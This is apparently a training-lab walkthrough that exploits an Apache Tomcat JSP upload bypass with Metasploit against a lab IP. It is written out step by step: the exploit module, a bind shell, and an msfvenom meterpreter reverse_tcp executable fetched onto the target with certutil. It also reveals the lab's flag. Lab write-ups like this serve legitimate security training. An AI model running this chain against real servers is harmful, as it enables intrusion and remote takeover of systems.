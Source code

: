 # 🔬Tomcat - MSF Exploit

## Lab 1

>  🔬 [Windows: Java Web Server](https://attackdefense.com/challengedetails?cid=1948)
>
>  - Target IP: `10.2.24.113`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution](https://www.exploit-db.com/exploits/42966)

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.24.113
setg RHOST 10.2.24.113
workspace -a TOMCAT
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 10.2.24.113
```

![db_nmap -sS -sV -O 10.2.24.113](.gitbook/assets/image-20230416120211695.png)

- Try tomcat from a browser
  - `http://10.2.24.113:8080/`

```bash
services
search type:exploit tomcat_jsp
use exploit/multi/http/tomcat_jsp_upload_bypass
info
# Description:
#  This module uploads a jsp payload and executes it.
check
run
```

- Or use a specific payload

```bash
set payload java/jsp_shell_bind_tcp
options
set SHELL cmd
run
```

- A CMD shell session is provided

```bash
cd /
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>


`92d60a06d0ea2179c9a8c442c0bd0bc0`

![](.gitbook/assets/image-20230416121023113.png)

</details>



- Obtain a `Meterpreter` session

```bash
background
sessions
```

- Generate a Windows `meterpreter` payload. Open a new terminal tab

```bash
ip -br -c a

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.18.2 LPORT=1234 -f exe > meterpreter.exe
```

```bash
sudo python3 -m http.server 80
```

- In the first `msfconsole` tab

```bash
sessions
sessions 2

certutil -urlcache -f http://10.10.18.2/meterpreter.exe meterpreter.exe
```

- Terminate the python web server and set up the handler in the second tab

```bash
vim handler.rc
# Insert the following lines

use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.18.2
set LPORT 1234
run

# Save it and exit
```

```bash
msfconsole -r handler.rc
```

- Execute the `meterpreter.exe` on the target system

```bash
.\meterpreter.exe
```

- Reverse `Meterpreter` session will be opened.

------

